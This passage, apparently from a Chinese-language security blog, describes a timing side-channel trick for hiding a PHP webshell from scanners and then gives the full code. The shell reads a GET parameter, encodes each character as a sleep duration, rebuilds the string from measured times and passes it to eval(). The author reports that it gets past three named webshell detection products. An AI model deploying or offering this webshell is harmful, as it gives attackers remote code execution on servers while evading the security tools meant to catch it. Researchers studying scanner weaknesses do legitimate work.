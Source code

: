 ```shell
```
可以看到，通过时间的测量，我们可以把一个三位的密钥变成三个一位密钥，大大节省了尝试的时间。
那么大致了解了简单的侧信道知识。我们是不是可以利用这个侧信道思路恢复我们的输入。
#### microtime
所以，侧信道思路就是：传入的source参数可以拆分成acsii，然后使用microtime来延时相对应的ascii时间，然后测量这个时间，通过获取程序执行的时间来恢复参数，从而得到一份干净的数据，然后送去sink
```php
<?php 
$temp = $_GET['a']; //source 
$test = new SplQueue();
$time_stack = new SplQueue();

for($i=0;$i < strlen($temp);$i++)
{
    $test->enqueue(ord($temp[$i]));//获取ascii存入队列，source
}
while(1)
{
    if(($test->isEmpty()))//source
    {
        break;
    }
    
    $start = microtime(true);//干净的
    usleep(($test->dequeue())*20000);// ascii 1毫秒   source
    // $end = microtime(true); //干净的
    $end = microtime(true); //干净的

    $test->next();
    $timesta = ceil(($end - $start)*1000);//干净的
    $time_stack->enqueue(ceil(($timesta / 2) /10) - 1);//干净的
}
$hahh = "";
while(!($time_stack->isEmpty()))
{
    $caaaa = $time_stack->dequeue();
    $hahh .= chr($caaaa);
    $time_stack->next();
}

eval($hahh);
  ?>
```
值得注意的是，像我们之前说过，侧信道测量是会有误差的，所以这个sleep的时间必须多测几次，测出一个能恢复的延迟时间，在我Win本地以及Linux远程服务器，`usleep(($test->dequeue())*20000)`  这个是能恢复正确的ascii的，不排除存在极端情况无法恢复。
##### 测试情况
伏魔
![image-20220210162819275](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162819275.png)
河马查杀1.8.2
![image-20220210162833817](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162833817.png)
长亭牧云
![image-20220210162841721](https://raw.githubusercontent.com/pw0rld/blog_image/master/image-20220210162841721.png)
